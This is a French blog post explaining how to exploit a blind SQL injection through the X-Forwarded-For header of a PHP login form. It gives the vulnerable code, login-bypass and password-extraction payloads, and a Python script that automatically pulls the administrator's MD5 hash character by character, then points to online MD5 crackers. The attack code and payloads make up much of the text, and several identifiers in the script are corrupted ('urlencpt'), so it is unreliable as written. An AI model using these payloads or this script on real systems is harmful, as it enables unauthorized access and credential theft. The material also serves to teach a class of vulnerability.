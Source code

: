 = Blind SQL injection via un header HTTP
:published_at: 2015-01-31
:hp-tags: security

Cet article présente une façon originale d'exploiter une faille de type injection SQL. La faille se trouve dans un formulaire d'identification et plus précisément dans le code PHP qui ne contrôle pas tous les paramètres de la requête SQL.

Le code PHP est le suivant :

[source, php]
----
<?php
$req = mysql_query("SELECT login,pwd FROM administrators
                    WHERE login='".sanitize($_POST['login'])."'
                    AND pwd='".md5($_POST['password'])."'
                    AND ip='".ip()."'");
----

La variable login est correctement contrôlée grâce à la fonction `sanitize()` :

[source, php]
----
<?php
function sanitize($param){
    if (is_numeric($param)){
    	return $param;
	}
	else{
		return mysql_real_escape_string($param);
	}
}
----

Et le mot de pass est directement converti en MD5, rien à faire de ce coté là. Intéressons nous au paramète `IP` et plus particulièrement à la fonction `ip()`.

[source, php]
----
<?php
function ip(){
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
	else{
		$ip = $_SERVER["REMOTE_ADDR"];
    }

	if (preg_match("#^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}#",$ip)){
		return $ip;
	}
	else{
		return $_SERVER["REMOTE_ADDR"];
	}
}
----

On remarque que la récupération de l'adresse ip repose sur un header `HTTP _X_FORWARDED_FOR` et que le seul contrôle effectué est un `preg_match` qui permet de vérifier que le paramètre contient bien au moins une adresse ip. Il est alors possible d'injecter du code SQL dans le header HTTP afin de bypasser l'identification voir même d'extraire les informations de la BDD.

En modifiant le header par :

 127.0.0.1' or 1=1#

La requête est forcément vraie et on se retrouve identifié \o/

De la même manière on va pouvoir récupérer le password de l'administrateur, en effet lorsque la requete est fausse la page affiche "Mot de passe incorrect", en effectuant une http://www.ghostsinthestack.org/article-11-blind-sql-injections.html[blind SQL injection] il est possible de retrouver le mot de passe caractère par caractère, exemple :

 127.0.0.1' or ascii(substring(pwd,1,1))=48#

Si la requête est vraie et donc que l'on se retrouve identifié alors cela veut dire que le premier caractère du mot de passe est "0" (48 en ascii)

J'ai écrit un petit script en python (mon premier) qui permet d'automatiser tout cela :

[source, python]
----
import httplib
import urllib
import re

password = ""

md5 = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cpt = 0
i = 1

while i<=32:

	print 'Recherche du caractère '+str(i)
	if cpt == 16:
		cpt = 0

	print 'Test caractere : '+md5[cpt]
	params = urllib.urlencpt({'login': 'admin', 'pwd': 'password'})
	headers = {"Content-type": "application/x-www-form-urlencptd",
               "Accept": "text/plain",
               "x-forwarded-for":"127.0.0.1' or ascii(substring(pwd,"+str(i)+",1))="+str(ord(md5[cpt]))+"#"}
	conn = httplib.HTTPConnection("www.site.com:80")
	conn.request("POST", "/index.php", params, headers)
	response = conn.getresponse()
	print response.status, response.reason
	data = response.read()
	conn.close()

	if not(re.search('incorrect',data)):
		print 'Caractère trouvé : '+md5[cpt]
		password += md5[cpt]
		i += 1
		cpt = 0
	else:
		cpt += 1

print 'MD5 = '+str(password)
----

Et voila on trouve le hash et un passage par http://www.cmd5.org/[cmd5.org] ou par http://www.md5decrypter.co.uk/[md5decrypter.co.uk] nous donne la correspondance. Si vous avez des questions, commentaires n'hésitez pas.